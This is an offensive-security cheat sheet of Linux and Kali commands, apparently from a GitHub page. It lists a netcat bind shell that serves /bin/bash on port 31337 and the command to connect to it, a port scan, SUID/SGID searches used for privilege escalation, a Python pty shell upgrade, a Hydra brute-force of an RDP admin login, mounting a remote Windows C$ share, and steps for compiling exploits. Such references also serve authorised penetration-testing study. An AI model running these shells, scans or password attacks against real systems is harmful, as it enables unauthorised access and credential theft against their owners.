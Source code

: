 `nc -lp 31337 -e /bin/bash`

`nc 192.168.0.11 31337`

`nc -vv -r(random) -w(wait) 1 192.168.0.10 -z(i/o error) 1-1000`

## Find all SUID root files:
`find / -user root -perm -4000 -print`

## Find all SGID root files:
`find / -group root -perm -2000 -print`

## Find all SUID and SGID files owned by anyone:
`find / -perm -4000 -o -perm -2000 -print`

## Find all files that are not owned by any user:
`find / -nouser -print`

## Find all files that are not owned by any group:
`find / -nogroup -print`

## Find all symlinks and what they point to:
`find / -type l -ls`

## Python:
`python -c ‘import pty;pty.spawn(“/bin/bash”)’`

`python -m SimpleHTTPServer (Starting HTTP Server)`

## PID:
`fuser -nv tcp 80 (list PID of process)`

`fuser -k -n tcp 80 (Kill Process of PID)`

## Hydra:
`hydra -l admin -P /root/Desktop/passwords -S X.X.X.X rdp (Self Explanatory)`

## Mount Remote Windows Share:
`smbmount //X.X.X.X/c$ /mnt/remote/ -o username=user,password=pass,rw`

## Compiling Exploit in Kali:
`gcc -m32 -o output32 hello.c (32 bit)`

`gcc -o output hello.c (64 bit)`

## Compiling Windows Exploits on Kali:
`cd /root/.wine/drive_c/MinGW/bin`

